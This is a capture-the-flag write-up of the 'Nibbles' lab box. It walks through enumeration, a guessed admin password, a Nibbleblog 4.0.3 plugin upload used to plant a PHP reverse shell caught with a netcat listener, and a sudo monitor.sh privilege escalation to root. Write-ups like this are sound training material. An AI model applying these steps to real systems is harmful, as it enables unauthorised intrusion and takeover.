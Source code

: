 # Nibbles

![image](https://user-images.githubusercontent.com/10210108/79372160-96defb00-7f23-11ea-8f04-4958f27e7e60.png)

## Overview

Nibbles is an Ubuntu box hosting a site called Nibbleblog. After some basic enumeration of the default page and gobuster scanning I found the admin page with an easily guessible password.  From there I took advantage of an arbitrary file execution vulnerability in Nibbleblog 4.0.3 and uploaded a reverse shell. The user nibbles was able to run a monitor script as root with no password, since the user had full control over that path I was able to create a file containg /bin/bash to become root.

## Enumeration

**Software**
* Ubuntu 16.04.3 LTS
* nibbleblog 4.0.3
  * Codename: Coffee
  * Release date: 2014-04-01
  * https://sourceforge.net/projects/nibbleblog/
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

**Open Ports**

```
map -v -Pn -sT -A -p- 10.10.10.75 -oN /mnt/data/boxes/nibbles/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http


**Directory/File Brute Forcer**

```
gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30 -x html,php
```

* /index.html

```
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30 -x html,php
```

* /index.php
* /sitemap.php
* /content
  * /private - various XML files. users.xml sh ows username "admin"
    * /plugins - more folders containing db.xml file
  * /public - empty folders
  * /tmp - empty
* /feed.php - atom feed 
* /themes - theme folders
* /admin - site files
* /admin.php - "sign in to Nibbleblog admin area"
* /plugins - various folders
* /install.php - "Blog already installed... May be you want to update ?"
* /update.php - Redirect from install.php. Shows "DB updated + paths and Nibbleblog Version
* /README - Information about nibbleblog invluding version info, system requirements, etc.
* /languages
* /LICENSE.txt
* /COPYRIGHT.txt

## Steps (user)

I started by browsing to http://10.10.10.75 and received a page with the text "Hello World!". After viewing the source of the page I saw a comment that indicated there was a /nibbleblog/ directory on the site.

![image](https://user-images.githubusercontent.com/10210108/83189723-603df800-a0ff-11ea-9712-77138d9b898b.png)

I kicked off another gobuster scan, appending /nibbleblog to the URL, while I manually reviewed the site. There was nothing interesting in the source and all the links pointed to a blank page.

After checking the results of the second gobuster scan I came across an admin page.

```
http://10.10.10.75/nibbleblog/admin.php
```

![image](https://user-images.githubusercontent.com/10210108/83191735-82854500-a102-11ea-908d-dd345f41d141.png)

I did a search for default credentials for Nibbleblog but didn't find anything. Luckily the password was the name of the box so I was able to log in with admin/nibbles.

![image](https://user-images.githubusercontent.com/10210108/83193520-2ec82b00-a105-11ea-96b7-d9490b037f2d.png)

Doing an internet search for nibbleblog exploits, I came across this packetstorm article - https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

```
...truncated...

Activate My image plugin by visiting
http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
    Upload PHP shell, ignore warnings
    Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```

So basically once the image plugin is enabled any php file can be uploaded to get a web shell, reverse shell, etc. I decided to go right for a reverse shell.

I copied a reverse shell to my working directory and modified the IP and Port in the copy.
```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
```

I browsed to http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image and clicked "configure" under "My image".

![image](https://user-images.githubusercontent.com/10210108/83194570-d8f48280-a106-11ea-8a40-e31ba82a18e2.png)

I clicked "browse", selected rshell.php, and clicked "save changes"

![image](https://user-images.githubusercontent.com/10210108/83194669-00e3e600-a107-11ea-9b59-51a53952fe24.png)

There were errors but they can be ignored

![image](https://user-images.githubusercontent.com/10210108/83194710-122cf280-a107-11ea-8f72-f458298c8abb.png)

I set up a netcat listener (nc -lvnp 4200), browsed to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php and received a callback.

![image](https://user-images.githubusercontent.com/10210108/83194980-7f408800-a107-11ea-92c8-87a044fe8f7e.png)

## Steps (root/system)

Running "sudo -l" as user nibbler shows that this user can run "/home/nibbler/personal/stuff/monitor.sh" as root.

> There seems to be a delay when running sudo. The error is "unable to resolve host Nibbles" so guessed this had something to do with the hosts file.

![image](https://user-images.githubusercontent.com/10210108/83195399-28877e00-a108-11ea-9bb1-b08e1369a12c.png)

Changing to that directory failed because it didn't exist. I went ahead and created the personal/stuff folders along with the monitor.sh file.  

```
mkdir -p personal/stuff
```

Added the command to spawn a shell in monitor.sh and made it executable

```
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
```

Once I ran sudo, providing the full path to the monitor.sh script, I received a root shell.

![image](https://user-images.githubusercontent.com/10210108/83196087-40abcd00-a109-11ea-9fc0-ed2aca68fa28.png)
